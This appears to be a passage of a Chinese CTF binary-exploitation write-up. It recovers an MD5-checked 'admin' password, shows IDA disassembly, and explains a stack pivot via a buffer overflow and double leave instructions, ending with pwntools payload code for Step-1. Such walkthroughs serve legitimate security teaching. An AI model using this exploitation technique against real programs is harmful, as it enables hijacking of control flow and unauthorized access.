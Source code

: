 - 在输入是否合法的判断中，会判断用户名name / s1是否为admin，并判断buf(密码)的md5值是否与一个固定的字符串相等。
- 这个固定的字符串在IDA中显示的与实际用的不同，需要根据比对逻辑，恢复成对比的顺序，然后查他的原文

```assembly
21232F297A57A5A743894A0E4A801FC3
admin # https://www.cmd5.com/ 查询结果
```

也就是说，name(s1)和buf(passwd)都得是admin才能到`main_logic`的`ret`，但是缓冲区大于`admin`长度，则输入可以是`admin\0`+`SomeThingElse`

在IDA中，`main_logic`结尾的汇编和`main`结尾的汇编如下：

```assembly
; 这个是main_logic结尾的几行汇编语句
.text:0000000000401967                 mov     edi, offset aBailegebai ; "BaileGeBai"
.text:000000000040196C                 call    _puts
.text:0000000000401971                 nop
.text:0000000000401972                 leave
.text:0000000000401973                 retn
.text:0000000000401973 ; } // starts at 4018C7
.text:0000000000401973 main_logic      endp

; 这个是main结尾的几行汇编语句
.text:00000000004018BF                 call    main_logic      ; 主要逻辑在这个函数里
.text:00000000004018C4                 nop
.text:00000000004018C5                 leave
.text:00000000004018C6                 retn
.text:00000000004018C6 ; } // starts at 401876
.text:00000000004018C6 sub_401876      endp
```

可以看到`main_logic`结尾包含一条`leave`语句，同时在`main`中`call main_logic`后紧跟着也有一条`leave`

后续分析需要了解的一些知识点：

- `leave`相等于`mov rsp, rbp; pop rbp`
- `call` 相当于 `push RIP, jmp tag`
- 栈在哪取决于rsp的值，如果能修改rsp，则可以将栈修改到可控的区域（比如本题的name后的），那么`ret`这种指令行为取决于栈上数据的指令就可以被利用起来，从而控制程序

# Step-1: hijack rsp, ret to main_logic

1. 利用溢出的8B，控制rbp的值
2. 利用连续两次的`leave`，控制rsp的值
3. 两次`leave`后`ret`时rsp已受控，则`pop rip`时用的是受控的rsp，故程序执行流程被控制

```python
# 0x401972 main_logic: leave; 0x40191C main_logic: read pw
gdb.attach(sh, "b *(0x401972)\nb *(0x40191C)\nc")

payload = b"admin\0".ljust(0x8, b'\0') + p64(0x4018BF)
sh.sendafter(">", payload)
payload = b"admin\0".ljust(0x20, b'\0') + p64(0x602400)
sh.sendafter(">", payload)
```
